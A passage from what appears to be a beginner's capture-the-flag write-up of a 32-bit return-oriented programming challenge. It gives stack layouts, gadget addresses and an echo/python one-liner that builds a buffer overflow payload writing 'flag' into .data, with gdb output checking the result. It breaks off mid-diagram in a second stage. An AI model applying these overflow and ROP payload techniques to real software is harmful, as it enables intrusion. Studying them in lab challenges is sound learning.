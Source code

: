 	 = "galf"
	_______________________________________
	eip = &uG
	 = 0x08048543 
	 = "\x43\x85\x04\x08"
	________________________________________
	eip = whatever
	 = cccc 
	_______________________________________
	
I set this up in a .txt file using "echo -e"... This helps me have more granular control over the values that I am passing into the program. Also, I am a n00b.

Me using echo -e:

	$ echo -e "`python3 -c "print('a'*40+'b'*4)"`\xaa\x85\x04\x08\x18\xa0\x04\x08galf\x43\x85\x04\x08cccc" > input


Let's run it in gdb and see if our values are correct:

	gef➤  i r edi
	edi            0x804a018           0x804a018
	gef➤  x/wx $edi
	0x804a018:	0x67616c66
	gef➤  x/s $edi
	0x804a018:	"flag"
	

Okay, so this worked pretty nicely :) we now have "flag" stored at .data (0x0804a018)


# Stack 2 - Storing the Entire String in Memory

Now, we need to get "txt." into .data+0x4 (0x0804a01c)
Can we use the same ROP gadgets??

	A's                                     40B
	_______________________________________
	fake ebp
	 = BBBB                                  4B
	_______________________________________
	eip
	 = &ROP gadget
	 = 0x080485aa				 4B 
 	 = "\xaa\x85\x04\x08"
	 _______________________________________
	edi 
	 = &data
	 = 0x0804a018				 4B
	 = "\x18\xa0\x04\x08"
	_______________________________________
	ebp 
	 = "flag"				 4B
	 = "galf"
	_______________________________________
	eip = &uG
	 = 0x08048543 				 4B
	 = "\x43\x85\x04\x08"
	________________________________________
	 eip = &ROP gadget
	 = 0x080485aa				 4B
	 = "\xaa\x85\x04\x08"
	_______________________________________
	edi 